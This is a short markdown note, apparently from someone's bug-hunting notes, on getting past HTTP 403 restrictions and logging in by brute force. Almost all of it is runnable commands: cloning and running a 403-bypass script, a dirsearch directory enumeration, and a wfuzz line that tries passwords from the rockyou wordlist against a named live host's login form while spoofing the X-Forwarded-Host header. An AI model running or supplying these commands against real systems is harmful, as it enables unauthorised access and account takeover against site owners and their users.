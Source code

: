 # Bypass and brute force

## bypass 403

![alt text](/img/image.png)

### bypass tools

```bash
git clone https://github.com/iamj0ker/bypass-403
cd bypass-403
./bypass-403.sh www.example.com/
```

or

```bash
dirsearch -u "www.example.com/" -w wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### bypass login

```bash
wfuzz -c -z file,bughunter/tools/wordlists/rockyou.txt --hh 810 -d "username=khuluq&password=FUZZ" -H "X-Forwarded-Host: 127.0.0.1" https://withered-moon-01412.pktriot.net/index.php
```

![alt text](/img/proof1.png)
![alt text](/img/image1.png)
